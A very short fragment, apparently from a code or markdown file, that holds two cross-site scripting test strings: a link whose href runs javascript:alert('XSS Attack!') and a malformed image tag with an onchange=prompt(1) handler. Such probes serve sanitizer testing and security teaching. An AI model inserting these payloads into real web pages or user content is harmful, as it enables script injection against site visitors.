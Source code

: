 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<img src='https://in.pinterest.com/pin/932245191599758496'>onchange=prompt(1)</img>
